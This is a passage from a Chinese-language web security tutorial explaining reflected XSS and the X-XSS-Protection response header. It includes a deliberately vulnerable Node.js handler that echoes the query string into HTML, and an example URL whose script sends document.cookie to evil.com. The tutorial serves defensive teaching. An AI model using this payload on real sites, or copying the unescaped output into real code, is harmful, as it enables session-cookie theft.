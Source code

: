 ### 启用 XSS 过滤 ###

在反射型跨站脚本攻击（reflected XSS）中，攻击者将恶意 JavaScript 代码注入到 HTTP 请求，注入的代码「映射」到响应中，并由浏览器执行，从而使恶意代码在可信任的上下文中执行，访问诸如会话 cookie 中的潜在机密信息。不幸的是，XSS 是一个很常见的网络应用攻击，且令人惊讶地有效！

为了了解反射型 XSS 攻击，参考以下 Node.js 代码，渲染 `mywebapp.com`，模拟一个简单的 web 应用程序，它将搜索结果以及用户请求的搜索关键词一起呈现：

```javascript
function handleRequest(req, res) {
    res.writeHead(200);

    // Get the search term
    const parsedUrl = require('url').parse(req.url);
    const searchTerm = decodeURI(parsedUrl.query);
    const resultSet = search(searchTerm);

    // Render the document
    res.end(
        "<html>" +
            "<body>" +
                "<p>You searched for: " + searchTerm + "</p>" +
                // Search results rendering goes here…
            "</body>" +
        "</html>");
};
```

现在，来考虑一下上面的 web 应用程序会如何处理在 URL 中嵌入的恶意可执行代码，例如：

```
https://mywebapp.com/search?</p><script>window.location=“http://evil.com?cookie=”+document.cookie</script>
```

你可能意识到了，这个 URL 会让浏览器执行注入的脚本，并发送极有可能包含机密会话的用户 cookies 到 evil.com。

为了保护用户抵抗反射型 XSS 攻击，有些浏览器实施了保护机制。这些保护机制尝试通过在 HTTP 请求和响应中寻找匹配的代码模式来辨识这些攻击。Internet Explorer 是第一个推出这种机制的，在 2008 年的 IE 8 中引入了 XSS 过滤器的机制，而 WebKit 后来推出了 XSS 审计，现今在 Chrome 和 Safari 上可用（Firefox 没有内置类似的机制，但是用户可以使用插件来获得此功能）。这些保护机制并不完美，它们可能无法检测到真正的 XSS 攻击（漏报），在其他情况可能会阻止合法代码（误判）。由于后一种情况的出现，浏览器允许用户可设置禁用 XSS 过滤功能。不幸的是，这通常是一个全局设置，这会完全关闭所有浏览器加载的 web 应用程序的安全功能。

幸运的是，有方法可以让 web 应用覆盖此配置，并确保浏览器加载的 web 应用已打开 XSS 过滤器。即通过设定 `X-XSS-Protection` 响应头实现。此响应头支持 Internet Explorer（IE8 以上）、Edge、Chrome 和 Safari，指示浏览器打开或关闭内置的保护机制，及覆盖浏览器的本地配置。

`X-XSS-Protection` 指令包括:

- `1` 或者 `0`

使用或禁用 XSS 过滤器。
- `mode=block`

当检测到 XSS 攻击时，这会指示浏览器不渲染整个页面。

我建议永远打开 XSS 过滤器以及 block 模式，以求最大化保护用户。这样的响应头应该是这样的：

```
X-XSS-Protection: 1; mode=block
```
